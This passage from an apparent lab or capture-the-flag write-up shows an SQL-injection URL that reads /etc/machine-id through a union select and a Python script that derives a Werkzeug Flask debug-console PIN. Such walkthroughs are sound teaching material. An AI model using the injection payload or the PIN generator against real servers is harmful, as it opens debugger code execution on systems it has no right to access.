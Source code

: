 For machine-id use `http://rh:8000/download?id=' union select "file:///etc/machine-id" where 1=1 and '1'='1`

This will download the information to your downloads folder. Cat the files and input into the exploit code.

Full exploit code for my machine:
```
import hashlib
from itertools import chain
probably_public_bits = [
    'mcskidy',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/home/mcskidy/.local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2818051077195',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'aee6189caee449718070b58132f2e4ba'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
